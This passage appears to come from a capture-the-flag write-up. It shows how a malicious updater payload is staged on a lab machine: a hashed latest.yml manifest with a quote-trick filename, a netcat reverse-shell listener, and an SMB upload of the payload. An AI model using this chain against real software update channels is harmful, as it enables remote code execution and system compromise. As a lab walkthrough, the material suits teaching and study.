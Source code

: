 `sha512sum` produces the ascii sha512 checksum, then we cut it out of the output (delimiter ' ', field 1).  We then take the ascii hash, convert it to binary (-r flag to xxd), print out the raw characters (-p flag to xxd), and base64 encode that output (-w0 prevents linewrapping)

```
# This gives me:
cRqUc3teerBYx5hesYN04DykS0GWGZZCOk/Kc5OuBcki7cyvucUavSD4Fd4mFwbZXXhQrDaYv68quUUnkp6dmQ==  
```

Your hash will likely differ, if you try this.

Now we put it all into the latest.yml:

```
version: 1.0.1
files: 
  - url: sh'ell.exe
    sha512: cRqUc3teerBYx5hesYN04DykS0GWGZZCOk/Kc5OuBcki7cyvucUavSD4Fd4mFwbZXXhQrDaYv68quUUnkp6dmQ==
    size: 7168
path: sh'ell.exe
sha512: cRqUc3teerBYx5hesYN04DykS0GWGZZCOk/Kc5OuBcki7cyvucUavSD4Fd4mFwbZXXhQrDaYv68quUUnkp6dmQ==
```

### Delivering the payload

For this, we simply setup a listener:
```
nc -nlvp 4444
```

And then upload the file to any of the folders on the SMB share:
```
└─$ smbclient.py 'WORKGROUP@10.10.10.237'                                                                      130 ⨯
Impacket v0.9.24.dev1+20210720.100427.cd4fe47c - Copyright 2021 SecureAuth Corporation

Password:
Type help for list of commands
# shares
use ADMIN$
C$
IPC$
Software_Updates
# use Software_Updates
# ls
drw-rw-rw-          0  Sun Aug 15 19:04:39 2021 .
drw-rw-rw-          0  Sun Aug 15 19:04:39 2021 ..
drw-rw-rw-          0  Sun Aug 15 19:04:39 2021 client1
drw-rw-rw-          0  Sun Aug 15 19:04:39 2021 client2
drw-rw-rw-          0  Sun Aug 15 19:04:39 2021 client3
-rw-rw-rw-      35202  Fri Apr  9 07:18:08 2021 UAT_Testing_Procedures.pdf
# cd client1
# put sh\'ell.exe
[-] [Errno 2] No such file or directory: "sh\\'ell.exe"
# put sh'ell.exe
# put latest.yml
# ls
drw-rw-rw-          0  Sun Aug 15 19:06:52 2021 .
drw-rw-rw-          0  Sun Aug 15 19:06:52 2021 ..
-rw-rw-rw-        273  Sun Aug 15 19:06:52 2021 latest.yml
-rw-rw-rw-       7168  Sun Aug 15 19:06:49 2021 sh'ell.exe
```
